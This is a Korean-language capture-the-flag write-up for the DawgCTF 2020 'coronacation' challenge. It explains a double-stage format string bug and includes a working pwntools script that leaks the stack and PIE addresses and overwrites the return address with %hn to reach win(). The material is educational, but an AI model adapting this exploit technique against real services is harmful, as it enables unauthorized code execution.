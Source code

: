 # [WriteUp]DawgCTF 2020 - coronacation

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Overview

### play_game()

```c
int play_game()
{
  int result; // eax
  char s[64]; // [rsp+0h] [rbp-40h]

  puts("Welcome to this choose your own adventure game!");
  puts("You're President Ronald Drump and are tasked with leading the nation through this crisis.");
  puts("So what do you want to do?");
  puts("1. Close the borders.");
  puts("2. Tell everyone not to panic. It's just the Fake News media freaking out.");
  fgets(s, 50, _bss_start);
  printf("You chose: ");
  printf(s);
  if ( s[0] == '1' )
    return close_borders();
  result = '2' - (unsigned __int8)s[0];
  if ( s[0] == '2' )
    result = no_panic();
  return result;
}
```

도날드 트럼프 대통령이 되어 코로나19 사태를 극복하기 위해 선택을 해야 한다. 사실 무슨 선택을 하는지는 별로 중요하지 않고, 선택한 번호를 출력할 때 `printf(s);`로 출력해서 format string bug(FSB)가 발생한다는 사실이 중요하다.

### close_borders()

```c
int close_borders()
{
  int result; // eax
  char s[64]; // [rsp+0h] [rbp-40h]

  puts("\nSo we closed our borders. Weren't we doing that anyway with the wall?");
  puts("It's still spreading within our borders what do we do now?");
  puts("1. Reassure everyone the country can handle this. Our healthcare system is the best. Just the greatest.");
  puts("2. Make it a national emergency. Show the people we don't need Bernie's healthcare plan.");
  fgets(s, 50, _bss_start);
  printf("You chose: ");
  printf(s);
  if ( s[0] == '1' )
    return lose3();
  result = '2' - (unsigned __int8)s[0];
  if ( s[0] == '2' )
    result = lose4();
  return result;
}
```

`close_borders()`와 `no_panic()`은 똑같이 생겼고, 나라가 망했을 때 나오는 메시지만 다르다. 여기서도 선택한 메뉴를 `printf(s);`로 출력하고 있다. `play_game()`과 연결되어 double stage FSB가 발생한다.

### win()

```c
int win()
{
  char *argv; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  printf("I'm not sure how, but your terrible leadership worked!");
  argv = "/bin/cat";
  v2 = "flag.txt";
  v3 = 0LL;
  return execve("/bin/cat", &argv, 0LL);
}
```

플래그를 주는 함수이다.

### Mitigation

```shell
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

PIE가 걸려 있는데, 이건 그냥 FSB를 이용해서 leak을 하면 PIE base를 알 수 있기 때문에 별로 의미가 없다.

---

## Exploit plan

### leak

stage 1에서 스택의 주소와 PIE base를 모두 leak할 수 있다.

```shell
gdb-peda$ r
Starting program: /home/dr-nibe/DawgCTF2020/coronacation 
Welcome to this choose your own adventure game!
You're President Ronald Drump and are tasked with leading the nation through this crisis.
So what do you want to do?
1. Close the borders.
2. Tell everyone not to panic. It's just the Fake News media freaking out.
1 %14$p %15$p
You chose: 1 0x7fffffffdfa0 0x555555555484
```

14번째 format string에서는 `play_game()`의 return address보다 8만큼 큰 값이 나오고, 15번째 format string에서는 PIE base + `0x1484`가 나온다.

### overwrite return address

stage 2에서, 스택에 return address의 주소를 적어 놓고, `%n`을 사용해서 overwrite를 할 수 있다. PIE base를 알기 때문에 `win()`의 주소를 구해서 사용하면 될 것 같다. `win()`의 주소는 PIE base + `0x1165`이다. 어차피 `play_game()`의 return address와 `win()`의 주소는 별로 차이가 없기 때문에 하위 2바이트만 덮어도 될 것 같다.

---

## Exploit

```python
# exploit_coronacation

from pwn import *

# r = process("./coronacation")
r = remote("ctf.umbccd.io", 4300)

r.recvuntil("It's just the Fake News media freaking out.\n")

payload = "1"
payload += " %14$p %15$p"
r.sendline(payload)

r.recvuntil("You chose: 1 0x")
stack = int(r.recvuntil(" ")[:-1], 16) - 8 # address where play_game()'s return address is on
pie = int(r.recvline()[:-1], 16) - 0x1484 # PIE base
win = pie + 0x1165 # address of win()

log.info("stack: " + hex(stack))
log.info("PIE base: " + hex(pie))

r.recvuntil("Show the people we don't need Bernie's healthcare plan.\n")

win_low = win & 0xffff

payload = "1"
payload += "%" + str(win_low - 1) + "c%8$hn"
payload = payload.ljust(0x10, "A")
payload += p64(stack)

r.sendline(payload)

r.interactive()
```

```shell
dr-nibe@ubuntu:~/DawgCTF2020$ python exploit_coronacation.py 
[+] Opening connection to ctf.umbccd.io on port 4300: Done
[*] stack: 0x7ffef526c5b8
[*] PIE base: 0x5556be143000
[*] Switching to interactive mode
You chose: 1
...
Hospitals become overrun with cases and many people without healthcare can't afford treatment
Society collapses as hospitals fill.
DawgCTF{st@y_Th3_f@ck_h0m3}
[*] Got EOF while reading in interactive
$  
```

